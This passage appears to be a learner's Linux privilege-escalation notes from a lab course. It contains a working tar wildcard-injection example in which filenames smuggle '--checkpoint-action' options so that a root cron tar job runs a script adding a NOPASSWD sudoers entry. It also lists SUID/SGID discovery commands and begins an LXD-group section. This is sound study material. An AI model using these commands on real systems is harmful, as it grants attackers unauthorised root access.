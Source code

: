- Exemple of another Path Abuse :
https://medium.com/purplebox/linux-privilege-escalation-with-path-variable-suid-bit-6b9c492411de

**Wildcard Abuse**
#Wildcard_Abuse

- Example of wildcard abuse : 
```sh
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh

echo "" > "--checkpoint-action=exec=sh root.sh"

echo "" > --checkpoint=1
```

- Output: 
```sh
htb-student@NIX02:~$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh
```

- Restricted shell resource :
https://0xffsec.com/handbook/shells/restricted-shells/
### Permissions-based Privilege Escalation

**Special Permissions**
#setgid_setuid

- Find Root setgid and `setuid` : 
```sh
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
#and
find / -uid 0 -perm -6000 -type f 2>/dev/null
```

- Ressources :
https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits

**LXC / LXD Exploitation**
#LXC_LXD

1. **Group Membership:**
   - User `devops` is a member of groups `devops` and `lxd`.
   - Command: 
     ```sh
     id
     ```
   - Output: `uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)`
